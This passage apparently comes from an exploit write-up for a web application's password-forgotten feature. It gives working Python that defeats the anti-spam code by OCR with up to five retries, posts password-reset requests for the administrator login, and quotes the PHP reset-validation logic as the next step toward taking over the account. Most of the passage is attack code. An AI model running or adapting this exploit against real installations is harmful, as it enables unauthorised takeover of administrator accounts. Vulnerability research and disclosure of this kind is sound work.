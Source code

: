 ```python
        print(f"    [+] Infos: {infos}")
    return infos
```

### Password reset of the administrator

Once the information has been dumped we need to reset the administrator's password. The action of the password reset is realized within the loop of 5 iteration in order to overcome the possibility of incorrect text detection by OCR.

```python
def reset_password(url, login):
    for _ in range(5):
        code = get_antispam_code(url)
        headers = {
            "Referer": f"{url}user/passwordforgotten.php"
        }
        datas = {
            "action": "buildnewpassword",
            "username": login,
            "code": code
        }
        r = SESSION.post(url=f"{url}user/passwordforgotten.php",
                         data=datas, headers=headers, verify=False)
        if r.status_code == 200:
            for response in [f"Request to change password for {login} sent to", f"Demande de changement de mot de passe pour {login} envoyée"]:
                if r.text.find(response):
                    if DEBUG:
                        print(f"    [*] Password reset using code: {code}")
                    return 1
    return 0
```

Now let's change the administrator's password.

### Modification of administrator's password

In order to identify how to send the necessary data we can either read the code of <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>.

File: <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>
```php

...

// Validate new password
if ($action == 'validatenewpassword' && $username && $passwordhash)
{
    $edituser = new User($db);
    $result = $edituser->fetch('', $_GET["username"]);
    if ($result < 0)
    {
        $message = '<div class="error">'.$langs->trans("ErrorLoginDoesNotExists", $username).'</div>';
    }
    else
    {
        if (dol_verifyHash($edituser->pass_temp, $passwordhash))
        {
            // Clear session
            unset($_SESSION['dol_login']);
            $_SESSION['dol_loginmesg'] = $langs->trans('NewPasswordValidated');	// Save message for the session page

```
